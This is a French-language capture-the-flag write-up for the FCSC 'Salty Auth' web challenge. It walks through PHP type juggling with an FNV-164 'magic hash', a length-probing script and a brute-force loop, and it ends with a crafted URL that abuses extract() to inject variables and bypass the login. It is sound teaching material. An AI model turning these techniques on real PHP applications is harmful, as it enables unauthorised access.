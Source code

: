 ```yaml
---
title: FCSC - Salty Auth
date: 2023-05-06
summary: Type Juggling et éxécution de code avec Extract
author: Nu1t
description: Writeup
tags:
  - web
  - writeup
resources:
  - name: "featured-image"
    src: "featured-image.png"
---
```


## Enonce

![](./enonce.png)

Le lien nous redirige directement ici:
 
![](./chall.png)

On va devoir vérifier les 2 conditions afin de pouvoir afficher le flag.

## Conditions

Si l'on fournit en `GET` un parametre `?password=test` les comparaisons échouent et le même code source est affiché.

Voici un petit script pour trouver la longueur:

```python
import requests, time

url = "https://salty-authentication.france-cybersecurity-challenge.fr/?password="
params_template = {"password": ""}

'''
$salt = bin2hex(random_bytes(12));  # 24 chars

extract($_GET);

$secret = gethostname() . $salt;
'''
for i in range(24, 40):
        params = params_template.copy()
        response = requests.get(url+'a'*i)
        time.sleep(0.2)
        if "highlight_file" not in response.text:
                print(i)
```

Nous trouvons une longueur de `36`.

## Magic hash

On remarque tout de suite la 2nde condition `if (hash('fnv164', $password) == hash('fnv164', $secret))`:

Voici un script permettant de faire un magic hash de la bonne taille pour forcer un `===0`

```php
<?php

$counter =0;
while(1){
    $p = bin2hex(random_bytes(18));
    $counter+=1;
    if (hash('fnv164',$p)==0) {

        $h = hash('fnv164',$p); 
        echo $p;
        echo "\n";
        echo $h;
        echo "\n";
        echo $counter;
        exit();

    }
}

?>
```

![](./wrong.png)

Et après le `random` est bien embêtant ...

On pourrait bruteforcer pendant des heures avec ce genre de script mais c'est interdit x)

```python
import sys
import requests
import time

if len(sys.argv) < 2:
    print("Usage: python solve.py <pass>")
    sys.exit()

password = sys.argv[1]

i = 0
while True:
        response = requests.get(f'https://salty-authentication.france-cybersecurity-challenge.fr/?password={password}')
        print(response.text)
        if "Wrong" not in response.text:
                break
        time.sleep(0.33)
        print("essai n° ", i)
        i+=1
```

## Extract()?

En me repenchant dessus j'ai trouvé une vuln: on peut appeler `log_attack`:
Voir:

- https://github.com/HackThisSite/CTF-Writeups/blob/master/2016/SCTF/Ducks/README.md
- https://davidnoren.com/post/php-extract-vulnerability/

![](./log_attack.png)

Et récupérer le hostname:

![](./hostname.png)

## Réinitialisation du salt

On réutilise notre script PHP.

Grâce à extract on peut:

- préciser notre premier salt
- mettre un 2nd password (avec un nouveau salt) pour avoir 

```php
$password !== $secret
```

et

```php
hash('fnv164', $password) == hash('fnv164', $secret)
```

![](./solve.png)

On a plus qu'à:

`https://salty-authentication.france-cybersecurity-challenge.fr/?password=HASH_DU_SECRET&log_attack=extract($_SERVER);&salt=NOUVEAU_SALT`

Tada!!

![](./flag.png)
